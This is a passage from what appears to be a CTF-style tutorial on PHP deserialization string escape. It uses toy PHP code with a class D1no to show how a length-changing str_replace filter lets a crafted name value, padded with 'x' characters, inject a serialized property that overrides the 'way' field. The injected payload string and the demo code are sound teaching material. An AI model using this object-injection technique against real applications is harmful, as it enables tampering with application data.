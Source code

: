 ```php
(
    [name] =H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";s:3:"way";s:7:"Hacker!";}
    [way] =Web_Crypto_Misc
)
After filtering
D1no Object
(
    [name] =H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    [way] =Hacker!
)
```
### Character reduction

- Normal

```php
<?php
function down($str){
    return str_replace("xx","x",$str);
}
class D1no{
    public $name = 'H3rmesk1t';
    public $way = 'Web_Crypto_Misc';
}

echo serialize(new D1no())."\n";
echo "Before filtering","\n";
$c = unserialize((serialize(new D1no())));
print_r($c)."\n";
echo "Filtered"."\n";
$c = unserialize(down(serialize(new D1no())));
print_r($c);
?>
=>
O:4:"D1no":2:{s:4:"name";s:9:"H3rmesk1t";s:3:"way";s:15:"Web_Crypto_Misc";}
Before filtering
D1no Object
(
    [name] =H3rmesk1t
    [way] =Web_Crypto_Misc
)
After filtering
D1no Object
(
    [name] =H3rmesk1t
    [way] =Web_Crypto_Misc
)
```

- Passing one less x in the parameter name causes overflow and causes deserialization failure

```php
<?php
function down($str){
    return str_replace("xx","x",$str);
}
class D1no{
    public $name = 'H3rmesk1txx';
    public $way = 'Web_Crypto_Misc';
}

echo serialize(new D1no())."\n";
echo "Before filtering","\n";
$c = unserialize((serialize(new D1no())));
print_r($c)."\n";
```